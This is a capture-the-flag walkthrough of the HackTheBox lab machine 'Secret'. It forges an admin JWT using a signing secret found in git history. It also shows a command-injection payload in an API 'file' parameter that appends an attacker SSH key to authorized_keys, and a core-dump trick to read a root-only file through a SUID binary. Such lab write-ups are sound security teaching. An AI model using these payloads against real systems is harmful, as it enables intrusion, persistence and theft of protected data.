 #Info

Secret is an easy level linux box hosted on HTB, which focuses on JWT exploitation and remote command injection.

IP: 10.10.11.120


# Fingerprinting

`nmap -sC -sV $IP

Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-07 18:58 EST
Nmap scan report for secret.htb (10.10.11.120)
Host is up (0.19s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 97:af:61:44:10:89:b9:53:f0:80:3f:d7:19:b1:e2:9c (RSA)
|   256 95:ed:65:8d:cd:08:2b:55:dd:17:51:31:1e:3e:18:12 (ECDSA)
|_  256 33:7b:c1:71:d3:33:0f:92:4e:83:5a:1f:52:02:93:5e (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: DUMB Docs
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open  http    Node.js (Express middleware)
|_http-title: DUMB Docs
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.10 seconds`

Not too much out of the usual here, lets take a look at the website.

<!img1.png>

Looks to be some sort of API that we have to interact with.

Let's scroll down to the bottom to download the source code, and start to follow the documentation.

In order to register a user, we must send a POST request to `http://$IP:3000/api/user/register`, along with some JSON data in order to create our account. I always like to stick to the format, so we'll keep our email domain as dasith.works
`curl -X POST -H 'Content-Type: application/json' -d '{"name":"userinky", "email":"inky@dasith.works", "password":"userinky"}' http://10.10.11.120/api/user/register

{"user":"userinky"}`

The post request returns our username, so it seems to have gone through, we now have a valid account! Let's login!

`curl -X POST -H 'Content-Type: application/json' -d '{"email":"inky@dasith.works", "password":"userinky"}' http://10.10.11.120:3000/api/user/login

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjI2OWVkZjE3YjcxZjA0NjE2YWNhMDMiLCJuYW1lIjoidXNlcmlua3kiLCJlbWFpbCI6Imlua3lAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQ2Njk4NDI1fQ.zh32hjab2xHlJd-WTDVuzksBneaenJpeJMLtFlExEME `

Now we have a valid JWT token! Let's head over to https://jwt.io in order to take a look at what it does!

<!img2.png>

Let's try accessing the api/priv endpoint with our new token.

`curl -H 'auth-token : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjI2OWVkZjE3YjcxZjA0NjE2YWNhMDMiLCJuYW1lIjoidXNlcmlua3kiLCJlbWFpbCI6Imlua3lAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQ2Njk4NDI1fQ.bow0nys_azNS3CtuqQvmwWWEGTuhpk8sMZHMsHy9heo' http://$IP:3000/api/priv

Access Denied`

Doesn't seem to work. When in doubt, check the source code!

After doing a quick, easy scan of the source code, I couldn't find anything. Maybe something in a previous commit?

`git diff HEAD~2

diff --git a/.env b/.env
index fb6f587..31db370 100644
--- a/.env
+++ b/.env
@@ -1,2 +1,2 @@
 DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret`

Aha! The secret was removed in a previous version. Let's add that to the JWT decoder, (as well as changing my name to theadmin, you read the source code, right?) and make another request.

`curl -H 'auth-token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjI2OWVkZjE3YjcxZjA0NjE2YWNhMDMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Imlua3lAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQ2Njk4NDI1fQ.c-HkFLqjBX8Jypu-bGmFZNpUfTVXpggkWkAV75_febA' http://$IP:3000/api/priv/

{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}}`

There we go! I was expecting to get the user flag here, but we're still not there, so lets take a look around. After re-examining, the source code for a while, I discovered a potential RCE with the GET parameter.

## Foothold

`url -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjI2OWVkZjE3YjcxZjA0NjE2YWNhMDMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Imlua3lAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQ2Njk4NDI1fQ.c-HkFLqjBX8Jypu-bGmFZNpUfTVXpggkWkAV75_febA' 'http://10.10.11.120/api/logs?file=index.js;id'`

Looks like we're running under user dasith. We can leverage this RCE to add our own SSH keys to get a full shell on the machine. This is generally a formatting nightmare, as we need to make sure it's still in URL encoding. Starting out, we'll generate a new SSH keyset.

`ssh-keygen -f secret.htb

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in secret.htb
Your public key has been saved in secret.htb.pub
The key fingerprint is:
SHA256:LJetZl7jSHNO5IcXnXpdkRxfVmYpcSNSl1YebH4PJAQ kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|          E+o+o*%|
|            o.*@B|
|             o=+o|
|       . o   ..oo|
|      . S o . o.+|
|       o + . o .o|
|        * B + . .|
|       = O + .   |
|        o o      |
+----[SHA256]-----+
`
Now, to make things easier, let's export our SSH key to a variable.

`export SSHKEY=$(cat secret.htb.pub)`

Once that's done, we can begin crafting our command.

`curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjI2OWVkZjE3YjcxZjA0NjE2YWNhMDMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Imlua3lAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQ2Njk4NDI1fQ.c-HkFLqjBX8Jypu-bGmFZNpUfTVXpggkWkAV75_febA' --data-urlencode "file=index.js;echo $SSHKEY >> /home/dasith/.ssh/authorized_keys"'http://10.10.11.120/api/logs'`

Doesn't seem to work. After a while, finally found the issue. Since we have data, curl normally reads this as a POST request. Make sure it's a GET request, and we can ssh on in with

`ssh -i secret.htb dasith@secret.htb`

And we're in! User flag acquired, time to look at privilege escalation vectors.

After doing some poking around in the root directory, I found the `count` binary running with suid privileges. Time for some light binary exploitation.

Run the binary with `./count` and we can see what's up. The flag is always in /root/root.txt. so lets have that read it out for us. Unfortunately, we only get an access denied message. Next step is to attempt a memory dump. Let's run count again, but this time, background it when it asks us to save the results, then kill it and see if it drops a core dump for us to look through.


`dasith@secret:/opt$ ./count
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ^Z
[2]+  Stopped                 ./count
dasith@secret:/opt$ ps
    PID TTY          TIME CMD
   3545 pts/3    00:00:00 bash
   3654 pts/3    00:00:00 count
   3657 pts/3    00:00:00 ps
dasith@secret:/opt$ kill -BUS 3654
dasith@secret:/opt$ fg
./count
Bus error (core dumped)`

Crashes are usually saved in /var/crash, so let's go take a look!

Seems like we need to unpack the crash, I prefer apport, so let's unpack it and move it to a different directory.

`apport-unpack /var/crash/_opt_count.1000.crash /tmp/countcrash`

This is a binary file, so a dump would be pretty hard to read. Let's try `string`-ing CoreDump.

And there it is!

This works because it makes an insecure call, so we have the ability to view it in plaintext if we crash it before the program finishes.

We have our root flag, and have succesfully pwned Secret!
